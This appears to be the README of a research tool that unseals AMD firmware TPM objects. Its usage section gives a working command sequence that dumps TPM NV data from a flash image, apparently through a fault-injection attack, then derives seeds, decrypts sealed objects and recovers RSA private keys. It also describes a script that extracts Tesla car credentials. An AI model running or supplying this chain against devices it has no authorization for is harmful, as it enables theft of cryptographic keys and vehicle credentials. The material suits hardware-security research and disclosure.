 # Unsealing AMD fTPM Objects

## Installation

 1. create a python venv: `$ python3 -m venv venv`
 2. enter venv: `$ . venv/bin/activate`
 3. update pip `$ pip install -U pip`
 4. install amd-nv-tool:
  ```
  $ git submodule init
  $ git submodule update
  $ pip install ./amd-nv-tool
  $ pip install ./PSPTool
  ```
 5. install other components: `pip install -r requirements.txt`

**Note:** Maybe you will experience issues using the `pip install psptool` variant of psptool, so install it manually in the order provided above.

## Usage

To unseal a general tpm object: 
 1. use [amdnvtool](./amd-nv-tool) (and the associated fi attack) to dump the tpm-nv-data as json:
  ```
  $ amdnvtool flash-image.bin -s 17a6...f8fe >nvdata.json
  ```
 2. generate the primary objects `seedValue` from the template:
  ```
  $ python gen_prim_seed.py nvdata.json 0023000b00030472000000060080004300100003001000000000 0x20
  6fab...54b5
  ```
 3. unseal a tpm object using the parent's `seedValue`:
  ```
  $ python tpm_obj.py 6fab...54b5 tpm_object.pub_bytes tpm_object.priv_bytes
  TPM_KEYS {
    hmac_key = 974f...ff30
    aes_key(name) = cfa...596
  }

  TPM_2B_PUBLIC {
    algorithm = 0x0001
    name_alg = 0x000b
    attributes = 0x00060472
    auth_policy = 
    params = TpmSRsaParms(symmetric=16, scheme=16, key_bits=2048, exponent=65537)
    unique = Tpm2bPublicKeyRsa(length=256, modulus=2520...1377)
  }

  TPM_2B_PRIVATE {
    hmac = 03cb...edd7
    iv = e20...204
    sensitive = 6681...24da
  }

  TPM_2B_SENSITIVE {
    algorithm = 0x0001
    auth = 0000...0000
    seed = 
    sensitive = Tpm2bPrivateKeyRsa(bits=1024, prime_p=1640...4841)
  }
  ```
 3. if it's an RSA key, then recover the private key from the modulus and prime p:
  ```
  $ python recover_rsa_key.py 2520...1377 1640...4841 recovered.key
  $ cat recovered.key
  -----BEGIN PRIVATE KEY-----
  MIIE...
  ```

## Tesla car creds

For tesla car creds there is an all-in-one script:
```
Usage:
  unseal-tesla-car-creds.py <command> [<args ...>]
Commands:

  from-nvdata <nvdata.json> <car-creds.key> [<car-creds-unsealed.key>]
  from-image <flash-image.bin> <secret (hex)> <car-creds.key> [<car-creds-unsealed.key>]

```
